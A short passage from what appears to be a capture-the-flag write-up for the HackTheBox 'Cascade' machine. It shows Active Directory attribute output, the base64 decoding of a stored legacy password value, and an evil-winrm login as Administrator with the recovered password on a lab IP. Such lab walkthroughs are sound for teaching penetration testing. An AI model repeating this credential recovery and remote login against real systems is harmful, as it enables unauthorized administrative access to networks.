 ```PowerShell
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

Another `cascadeLegacyPwd` value... let's decode.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
baCT3r1aN00dles
```

### Shell as Administrator

Let's use our new credentials and see if they work for the Administrator account. The email we read during SMB enumeration before seems to indicate they will.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ evil-winrm -i 10.129.145.225 -u administrator -p 'baCT3r1aN00dles'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Grab that `root.txt` and be done!